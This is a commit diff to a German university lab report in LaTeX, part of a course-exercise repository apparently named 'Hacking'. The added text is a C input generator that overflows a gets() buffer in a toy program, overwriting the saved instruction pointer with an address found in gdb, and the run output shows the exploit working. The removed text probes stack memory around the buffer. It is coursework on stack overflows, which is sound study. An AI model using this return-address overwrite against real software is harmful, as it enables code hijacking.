

Before and after one commit to hikhvar/Hacking, a LaTeX document (Protokolle/5/protokoll.tex): two parts of pages 4 and 5 of 6 before the commit and part of page 4 of 5 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
added 2.b

```diff
--- a/Protokolle/5/protokoll.tex
+++ b/Protokolle/5/protokoll.tex
@@ -212,100 +212,36 @@ int main() {
    //print the cookie variable
    printf("dbcg");
    //print some unneeded data as offset to the jump adress
-   for(i = 0; i < 39; i++){
+   for(i = 0; i < 8; i++){
       printf("%c", 0);
    }
    //print the correct adress for the jump
-   printf("%c%c%c%c", (0x4005c5 & 0xFF000000) >> 24, 0x4005c5 & 0xFF,
-            (0x4005c5 & 0xFF00) >> 8, (0x4005c5 & 0xFF0000) >> 16);
+   printf("%c%c%c%c", 0x4005c5 & 0xFF, (0x4005c5 & 0xFF00) >> 8,
+            (0x4005c5 & 0xFF0000) >> 16, (0x4005c5 & 0xFF000000) >> 24);
+   for(i = 0; i < 4; i++){
+      printf("%c", 0);
+   }
 
    return 0;
 }
 \end{verbatim}
 
+Da wir wissen, dass hinter der \texttt{cookie} Variable zuerst der \texttt{saved frame pointer} im Speicher liegt und dahinter der \texttt{Saved Instruction Pointer} liegt, überspringen wir ersteren durch beliebige Eingabe. Da wir uns im 64Bit System befinden also 8*8Bit. Dahinter setzen wir die gdb entnommene Adresse 0x4005c5 als Sprungadresse (was den \texttt{Saved Instruction Pointer} auf die printf Funktion, statt die if-Abfrage setzt).
 
-Durch Modifikation des gegebenen Programms lassen wir uns erstmal den Speicher ausgaben, der um das Array und die Variable herum liegen. Das Programm sieht nun so aus:
+Jetzt führen wir das Programm aus und erhalten die entsprechende Ausgabe:
 \begin{verbatim}
-#include <stdio.h>
-
-int main() {
-   int cookie;
-   char buf[99];
-
-   printf("buf: %08x cookie: %08x\n", &buf, &cookie);
-   for(cookie = 108; cookie < 180; cookie += 4){
-      printf("pos: %08x val: %08x vali: %i\n", buf + cookie, *((int*)(buf + cookie)),
-               *((int*)(buf + cookie)));
-   }
-   gets(buf);
-
-   if (cookie == 0x000a0d00)
-      printf("glückwunsch bernd!\n");
-}
+$ ./inputGen | ./b
+buf: 5abf4970 cookie: 5abf49dc
+glückwunsch bernd!
+Speicherzugriffsfehler (Speicherabzug geschrieben)
 \end{verbatim}
 
-Dadurch bekommen wir folgende Ausgabe:
-\begin{verbatim}
-$ ./b
-buf: ffffe7d0 cookie: ffffe83c
-pos: ffffe83c val: 0000006c vali: 108
-pos: ffffe840 val: 00000000 vali: 0
-pos: ffffe844 val: 00000000 vali: 0
-pos: ffffe848 val: f7a54b05 vali: -140162299
-pos: ffffe84c val: 00007fff vali: 32767
-pos: ffffe850 val: 00000000 vali: 0
-pos: ffffe854 val: 00000000 vali: 0
-pos: ffffe858 val: ffffe928 vali: -5848
-pos: ffffe85c val: 00007fff vali: 32767
-pos: ffffe860 val: 00000000 vali: 0
-pos: ffffe864 val: 00000001 vali: 1
-pos: ffffe868 val: 0040058d vali: 4195725
-pos: ffffe86c val: 00000000 vali: 0
-pos: ffffe870 val: 00000000 vali: 0
-pos: ffffe874 val: 00000000 vali: 0
-pos: ffffe878 val: 559b8a02 vali: 1436256770
-pos: ffffe87c val: 3fc6c3b5 vali: 1069990837
-pos: ffffe880 val: 004004a0 vali: 4195488
-\end{verbatim}
-
-Durch einen Blick in die Ausgabe von gdb können wir die Sprungadressen 0x40058d und 0x4004a0 wiedererkennen. Diese zeigen jedoch auf den Anfang bzw. noch vor unser Programm, was das Überschreiben unnütz macht.
-
-Aus diesem Grund schauen wir auch vor das Array (von 108 vor dem Array bis zum Array selbst). Hier sehen wir, dass direkt vor dem Array eine weitere Sprungadresse existiert:
-\begin{verbatim}
-$ ./b
-buf: ffffe7d0 cookie: ffffe83c
-pos: ffffe764 val: 00000000 vali: 0
-pos: ffffe768 val: ffffe840 vali: -6080
-pos: ffffe76c val: 00007fff vali: 32767
-pos: ffffe770 val: 004004a0 vali: 4195488
-pos: ffffe774 val: 00000000 vali: 0
-pos: ffffe778 val: f7df1205 vali: -136375803
-pos: ffffe77c val: 00007fff vali: 32767
-pos: ffffe780 val: 00000000 vali: 0
-pos: ffffe784 val: 00000000 vali: 0
-pos: ffffe788 val: 00000000 vali: 0
-pos: ffffe78c val: 00000000 vali: 0
-pos: ffffe790 val: ffffe83c vali: -6084
-pos: ffffe794 val: 00007fff vali: 32767
-pos: ffffe798 val: ffffe7d0 vali: -6192
-pos: ffffe79c val: 00007fff vali: 32767
-pos: ffffe7a0 val: 00400714 vali: 4196116
-pos: ffffe7a4 val: 00000000 vali: 0
-pos: ffffe7a8 val: f7dd8c80 vali: -136475520
-pos: ffffe7ac val: 00007fff vali: 32767
-pos: ffffe7b0 val: f7debd00 vali: -136397568
-pos: ffffe7b4 val: 00007fff vali: 32767
-pos: ffffe7b8 val: f7ffe130 vali: -134225616
-pos: ffffe7bc val: 00007fff vali: 32767
-pos: ffffe7c0 val: 00000001 vali: 1
-pos: ffffe7c4 val: 00000000 vali: 0
-pos: ffffe7c8 val: 004005f4 vali: 4195828
-pos: ffffe7cc val: 00000000 vali: 0
-pos: ffffe7d0 val: ffffffff vali: -1
-\end{verbatim}
-Diese kann man durch eine Eingabe in gets aber nicht überschreiben, da sie auf der anderen Seite des Speichers liegt. Hier kommen wir also ohne Modifikation (würde ich sagen) des Programms selbst nicht weiter.
+Der Speicherzugriffsfehler kommt von der weiteren Ausführung des Programms, da der Stack nicht mehr korrekte Daten besitzt bei weiteren Aufrufen.
 
 \subsection*{c)}
+
+
+
 \section*{Aufgabe 3}
 Um diese Aufgabe zu lösen haben wir das Binary \texttt{break\_it} mittels der radare GUI Bokken disassembliert. Nach etwas Code studieren fiel uns auf, dass der String "Access Denied!" nach der Sprunganweisung
 \begin{verbatim}
```
Also changed, not shown: Protokolle/5/protokoll.tex (42 more changed lines).
